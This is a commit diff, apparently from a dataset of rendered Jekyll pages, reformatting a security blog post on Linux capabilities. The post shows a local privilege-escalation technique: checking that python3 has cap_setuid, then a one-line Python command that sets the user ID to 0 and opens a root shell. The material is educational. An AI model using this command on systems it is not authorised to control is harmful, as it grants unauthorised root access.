

Before and after one commit to appsecstories/appsecstories.github.io, a Jekyll site: the page built from _posts/2025-11-12-2-Linux Security - Capabilities.md, in a window 1280 px wide and 900 px high, scrolled down 1093 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2025-11-12-2-Linux Security - Capabilities.md

````diff
--- a/_posts/2025-11-12-2-Linux Security - Capabilities.md
+++ b/_posts/2025-11-12-2-Linux Security - Capabilities.md
@@ -60,19 +60,15 @@
 
 **1. Verify the capability**
 ```bash
+# 1. Verify the capability
 getcap /usr/bin/python3
-```
+# Output: /usr/bin/python3 = cap_setuid+ep
 
-# Output:
+# 2. Execute the exploit
+python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
 
-```bash
-/usr/bin/python3 = cap_setuid+ep
-```
-
-**2. Execute the exploit**
-
-```bash
-python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
+# 3. Result
+# You are dropped into a root shell (#)
 ```
 
 **3. Result**
````
